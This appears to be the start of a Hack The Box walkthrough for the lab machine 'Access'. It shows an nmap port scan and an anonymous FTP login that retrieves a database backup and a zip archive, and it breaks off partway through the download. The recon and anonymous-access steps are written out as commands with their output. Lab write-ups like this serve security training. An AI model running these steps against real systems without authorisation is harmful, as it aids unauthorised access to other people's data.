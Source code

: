 ## Detailed steps

### Portscan

Not many ports open for a Windows box.

```
root@darkisland:~# nmap -F 10.10.10.98
Starting Nmap 7.70 ( https://nmap.org ) at 2018-09-30 18:24 EDT
Nmap scan report for access.htb (10.10.10.98)
Host is up (0.018s latency).
Not shown: 97 filtered ports
PORT   STATE SERVICE
21/tcp open  ftp
23/tcp open  telnet
80/tcp open  http
```

#### FTP

The FTP site allows anonymous access and there's two interesting files we can download:
- `backup.mdb`
- `Access Control.zip`

```
root@darkisland:~/hackthebox/Machines/Access# ftp 10.10.10.98
Connected to 10.10.10.98.
220 Microsoft FTP Service
Name (10.10.10.98:root): anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password:
230 User logged in.
Remote system type is Windows_NT.
ftp> ls
200 PORT command successful.
125 Data connection already open; Transfer starting.
08-23-18  09:16PM       <DIR>          Backups
08-24-18  10:00PM       <DIR>          Engineer
226 Transfer complete.
ftp> cd Backups
250 CWD command successful.
ftp> ls
200 PORT command successful.
125 Data connection already open; Transfer starting.
08-23-18  09:16PM              5652480 backup.mdb
226 Transfer complete.
ftp> type binary
200 Type set to I.
ftp> get backup.mdb
local: backup.mdb remote: backup.mdb
200 PORT command successful.
125 Data connection already open; Transfer starting.
226 Transfer complete.
5652480 bytes received in 0.94 secs (5.7248 MB/s)
ftp> cd ..
250 CWD command successful.
ftp> cd Engineer
250 CWD command successful.
ftp> ls
200 PORT command successful.
125 Data connection already open; Transfer starting.
08-24-18  01:16AM                10870 Access Control.zip
226 Transfer complete.
ftp> get "Access Control.zip"
local: Access Control.zip remote: Access Control.zip
```